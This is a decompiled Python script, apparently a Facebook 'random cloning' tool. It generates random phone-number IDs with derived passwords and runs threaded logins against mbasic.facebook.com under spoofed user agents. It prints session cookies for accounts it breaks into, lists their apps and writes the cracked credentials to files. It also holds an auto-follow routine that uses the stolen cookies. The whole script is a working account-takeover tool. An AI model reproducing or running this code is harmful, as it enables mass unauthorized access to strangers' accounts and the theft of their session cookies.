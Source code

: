 # Decompile by  (Mr yasiro)
# Time Succes decompile : 2023-04-09 06:48:38.657478

import os,sys,time,json,random,re,string,platform,base64,uuid
os.system("git pull")
from bs4 import BeautifulSoup as sop
from bs4 import BeautifulSoup
import requests as ress
from datetime import date
from datetime import datetime
from time import sleep
from time import sleep as waktu
try:
    import requests
    from concurrent.futures import ThreadPoolExecutor as ThreadPool
    import mechanize
    from requests.exceptions import ConnectionError
except ModuleNotFoundError:
    os.system('pip install mechanize requests futures bs4==2 > /dev/null')
    os.system('pip install bs4')
    
def cek_apk(session,coki):
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=active",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Active  Apk%s  '%(N,M,N,M,N))
    else:
        print(f'\r[] %s \x1b[1;95m  Your Active Apps      :{WHITE}'%(GREEN))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Ditambahkan pada"," Ditambahkan pada"),N))
        else:
            print(f'\r %s[%s!%s] Sorry, Apk check failed invalid cookie'%(N,M,N))
    w=session.get("https://mbasic.facebook.com/settings/apps/tabbed/?tab=inactive",cookies={"cookie":coki}).text
    sop = BeautifulSoup(w,"html.parser")
    x = sop.find("form",method="post")
    game = [i.text for i in x.find_all("h3")]
    if len(game)==0:
        print(f'\r%s[%s!%s] %sSorry there is no Expired Apk%s           \n'%(N,M,N,M,N))
    else:
        print(f'\r[] %s \x1b[1;95m  Your Expired Apps     :{WHITE}'%(M))
        for i in range(len(game)):
            print(f"\r[%s%s] %s%s"%(N,i+1,game[i].replace("Kedaluwarsa"," Kedaluwarsa"),N))
        else:
            print('')

def follow(self, session, coki):
        r = BeautifulSoup(session.get('https://mbasic.facebook.com/profile.php?id=100015315258519', {
            'cookie': coki }, **('cookies',)).text, 'html.parser')
        get = r.find('a', 'Ikuti', **('string',)).get('href')
        session.get('https://mbasic.facebook.com' + str(get), {
            'cookie': coki }, **('cookies',)).text
            
          
class jalan:
    def __init__(self, z):
        for e in z + "\n":
            sys.stdout.write(e)
            sys.stdout.flush()
            time.sleep(0.009)
            
P = '\x1b[1;97m'
M = '\x1b[1;91m'
H = '\x1b[1;92m'
K = '\x1b[1;93m'
B = '\x1b[1;94m'
U = '\x1b[1;95m' 
O = '\x1b[1;96m'
N = '\x1b[0m'    
Z = "\033[1;30m"
sir = '\033[41m\x1b[1;97m'
x = '\33[m' # DEFAULT
m = '\x1b[1;91m' #RED +
k = '\033[93m' # KUNING +
xr = '\x1b[1;92m' # HIJAU +
hh = '\033[32m' # HIJAU -
u = '\033[95m' # UNGU
kk = '\033[33m' # KUNING -
b = '\33[1;96m' # BIRU -
p = '\x1b[0;34m' # BIRU +
asu = random.choice([m,k,xr,u,b])
my_color = [
 P, M, H, K, B, U, O, N]
warna = random.choice(my_color)
now = datetime.now()
dt_string = now.strftime("%H:%M")
current = datetime.now()
ta = current.year
bu = current.month
ha = current.day
today = date.today()
os.system('xdg-open https://www.facebook.com/nooristan.nasari &mibextid=ZbWKwL')
logo = ("""


    
░█████╗░███╗░░░███╗██╗██████╗░
██╔══██╗████╗░████║██║██╔══██╗
██║░░██║██╔████╔██║██║██║░░██║
██║░░██║██║╚██╔╝██║██║██║░░██║
╚█████╔╝██║░╚═╝░██║██║██████╔╝
░╚════╝░╚═╝░░░░░╚═╝╚═╝╚═════╝░

░░░░░██╗░█████╗░███╗░░██╗
░░░░░██║██╔══██╗████╗░██║
░░░░░██║███████║██╔██╗██║
██╗░░██║██╔══██║██║╚████║
╚█████╔╝██║░░██║██║░╚███║
░╚════╝░╚═╝░░╚═╝╚═╝░░╚══╝    
                                            
                                            
                                            
                             
    
 \033[1;93m╔═════════════════[\033[1;32m 𝘼𝘿𝙈𝙄𝙉 𝙄𝙉-𝙁𝙍𝙊 \033[1;32m]══════════════╗
 \033[1;93m║     \033[1;96m[✓] CREATED BY\33[0;m   : \033[1;96m YASIRO     \033[1;32m║
 \033[1;93m║     \033[1;32m[✓] FACEBOK      : \امید جان      \033[1;32m║
 \033[1;93m║     \033[1;35m[✓] GITHUB       :  \Yasiro13       \033[1;32m ║
 \033[1;93m║     \033[1;36m[✓] TOOL STATUS  : \033[1;36m Random Cloning       \033[1;32m ║
 \033[1;93m║     \033[1;35m[✓] TEAM         :  \033[1;35 Afg Booda team \033[1;32m ║
 \033[1;93m║     \033[1;36m[✓] TOOL VIRSION :  \033[1;36m0.0                  \033[1;32m ║
 \033[1;93m║᯽⊱┈──╌❊❊╌──┈⊰᯽⊱⊰᯽⊱┈──╌❊❊╌──┈⊰᯽⊱⊰᯽⊱┈─╌❊❊╌──┈⊰᯽⊱ \033[1;32m║
 \033[1;93m║  [\033[1;97m•\033[1;91m]\033[1;32m PLZ SAPPORT ME BRO....                 \033[1;32m  ║
 \033[1;93m║  [\033[1;97m•\033[1;91m]\033[1;32m Adnan TERMUX COMMEND ZONE....          \033[1;32m ║
 \033[1;93m╚═════════════════[\033[1;93m JABIR-ADNAN \033[1;32m]══════════════╝""")
def linex():
	print('\033[1;93m ×××××××××××××××××××××××××××××××××××××××××××××××××')
loop = 0
oks = []
cps = []
def clear():
    os.system('clear')
    os.system('https://www.facebook.com/nooristan.nasari &mibextid=ZbWKwL')
    print(logo)
from time import localtime as lt
from os import system as cmd
ltx = int(lt()[3])
if ltx > 12:
    a = ltx-12
    tag = "PM"
else:
    a = ltx
    tag = "AM"
    
    
try:
    print('\n\n\033[1;33mLoading asset files ... \033[0;97m')
    v = 5.2
    update = ('5.2')
    update = ('5.2')
    if str(v) in update:
        os.system('clear')
    else:pass
except:print('\n\033[1;31mNo internet connection ... \033[0;97m')
def dynamic(text):
    titik = ['.   ','..  ','... ','.... ']
    for o in titik:
        print('\r'+text+o),
        sys.stdout.flush();time.sleep(1)

ugen2=[]
ugen=[]
 
for xd in range(10000):
    aa='Mozilla/5.0 (Linux; U; Android'
    b=random.choice(['3','4','5','6','7','8','9','10','11','12','13','14','15','16','17'])
    c=' en-us; GT-'
    d=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    e=random.randrange(1, 999)
    f=random.choice(['A','B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M', 'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z'])
    g='AppleWebKit/537.36 (KHTML, like Gecko) Chrome/'
    h=random.randrange(73,100)
    i='0'
    j=random.randrange(4200,4900)
    k=random.randrange(40,150)
    l='Mobile Safari/537.36'
    uaku2=(f'{aa} {b}; {c}{d}{e}{f}) {g}{h}.{i}.{j}.{k} {l}')
    ugen.append(uaku2)
    

def samiya(uid):
    if len(uid)==15:
        if uid[:10] in ['1000000000']       :shanto = ' (*-*) 2009'
        elif uid[:9] in ['100000000']       :shanto = '√ 2009'
        elif uid[:8] in ['10000000']        :shanto = '√ 2009'
        elif uid[:7] in ['1000000','1000001','1000002','1000003','1000004','1000005']:shanto = '√ 2009'
        elif uid[:7] in ['1000006','1000007','1000008','1000009']:shanto = ' 2010'
        elif uid[:6] in ['100001']          :shanto = '√ 2010/2011'
        elif uid[:6] in ['100002','100003'] :shanto = '√ 2011/2012'
        elif uid[:6] in ['100004']          :shanto = '√ 2012/2013'
        elif uid[:6] in ['100005','100006'] :shanto = '√ 2013/2014'
        elif uid[:6] in ['100007','100008'] :shanto = '√ 2014/2015'
        elif uid[:6] in ['100009']          :shanto = '√ 2015'
        elif uid[:5] in ['10001']           :shanto = '√ 2015/2016'
        elif uid[:5] in ['10002']           :shanto = '√ 2016/2017'
        elif uid[:5] in ['10003']           :shanto = '√ 2018/2019'
        elif uid[:5] in ['10004']           :shanto = '√ 2019/2020'
        elif uid[:5] in ['10005']           :shanto = '√ 2020'
        elif uid[:5] in ['10006','10007','']:shanto = '√ 2021'
        elif uid[:5] in ['10008']           :shanto = '√ 2022'
        elif uid[:5] in ['10009']           :shanto = '√ 2023'
        else:shanto=''
    elif len(uid) in [9,10]:
        shanto = ' √ 2008/2009'
    elif len(uid)==8:
        shanto = '√ 2007/2008'
    elif len(uid)==7:
        shanto = '√ 2006/2007'
    else:shanto=''
    return shanto
    
    
    
def xxr():
    user=[]
    twf =[]
    os.getuid
    os.geteuid
    os.system("clear")
    print(logo)
    print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Example : {xr}019,017,018,92302,92301,91778{x}')
    print(" \033[1;93m ×××××××××××××××××××××××××××××××××××××××××××××××××")
    rk1 = '0171'
    rk2 = '0172'
    rk3 = '0175'
    code = random.choice([rk1,rk2,rk3])                      
    pww = input(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Choose : ')
    os.system('clear')
    print(logo)
    limit = int(input(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m EXAMPLE : 10000, 20000, 50000 \n \033[1;93m××××××××××××××××××××××××××××××××××××××××××××××××× \n \033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m PUT CLONING LIMIT: '))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    os.system("clear")
    print(logo)
    passx = 0
    HamiiID = []
    print("")
    for bilal in range(passx):
        pww = input(f"\033[1;91m[\033[1;97m•\033[1;91m]\033[1;92m Enter Password {bilal+1} : ")
        HamiiID.append(pww)
    with ThreadPool(max_workers=50) as manshera:
        clear()
        tl = str(len(user))
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m TOTAL IDS: {xr}'+tl)
        print(f'{x} \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m THE PROCESS HAS BEEN STARTED')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m WORK CUNTRY \033[1;97m: \033[1;96mBANGLADESH')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m TOOL OWNER \033[1;97m: \033[1;96m 𝐌𝐑-𝐒𝐇𝐀𝐖𝐎𝐍')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;94m USE NETWORK  \033[1;97m:  \033[1;96m2G, 3G, 4G, 5G ')
        print(f' \033[1;91m[\033[1;97m•\033[1;91m]\033[1;91m USE AEROPLANE MOOD IN EVERY 5 MIN ')
        print(f" \033[1;93m×××××××××××××××××××××××××××××××××××××××××××××××××")
        for love in user:
            pwx = [love[1:]]
            uid = code+love
            for Eman in HamiiID:
                pwx.append(Eman)
                pwx.append(love)
            manshera.submit(rcrack,uid,pwx,tl)
    print(f"\n{x} \033[1;93m×××××××××××××××××××××××××××××××××××××××××××××××××")
def rcrack(uid,pwx,tl):
    #print(user)
    global loop
    global cps
    global oks
    global proxy
    try:
        for ps in pwx:
            pro = random.choice(ugen)
            session = requests.Session()
            free_fb = session.get('https://mbasic.facebook.com').text
            log_data = {
                "lsd":re.search('name="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('name="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('name="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('name="li" value="(.*?)"', str(free_fb)).group(1),
            "try_number":"0",
            "unrecognized_tries":"0",
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority': 'mbasic.facebook.com',
			'method': 'GET',
			'path': 'https://www.facebook.com/?_rdc=1&_rdr',
			'scheme': 'https',
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'accept-encoding': 'gzip, deflate, br',
			'accept-language': 'en-US,en;q=0.9',
			'referer': 'https://t.facebook.com/',
			'sec-ch-ua': '"Google Chrome";v="90", "Not)A;Brand";v="8", "Chromium";v="75"',
			'sec-ch-ua-mobile': '?0',
			'sec-ch-ua-platform': '"Windows"',
			'sec-fetch-dest': 'document',
			'sec-fetch-mode': 'navigate',
			'sec-fetch-site': 'same-origin',
			'upgrade-insecure-requests': '1',
			'user-agent': pro,}
            lo = session.post('https://mbasic.facebook.com/login/device-based/regular/login/?refsrc',data=log_data,headers=header_freefb).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                print('\r\r\033[1;32m[𝐌𝐑-𝐒𝐇𝐀𝐖𝐎𝐍-OK💚] ' +uid+ ' | ' +ps+    '  \n[‎‎🌺]\033[0;93m COOKIE = \033[1;32m'+coki+  '  ''  \033[0;97m')
                cek_apk(session,coki)
                open('/sdcard/𝐌𝐑-𝐒𝐇𝐀𝐖𝐎𝐍-OK.txt', 'a').write( uid+' | '+ps+'\n')
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                #print('\r\r\33[1;31m [Mr yasir0-CP💔] ' +uid+ ' | ' +ps+           '  \33[0;97m')
                open('/sdcard/MrYasiro-CP.txt', 'a').write( uid+' | '+ps+' \n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1
        sys.stdout.write(f'\r\r%s {x}[{xr}Mr yasiro {x}][%s|%s][OK:{xr}%s{x}]'%(H,loop,tl,len(oks))),
        sys.stdout.flush()
    except:
        pass



xxr()
      
 
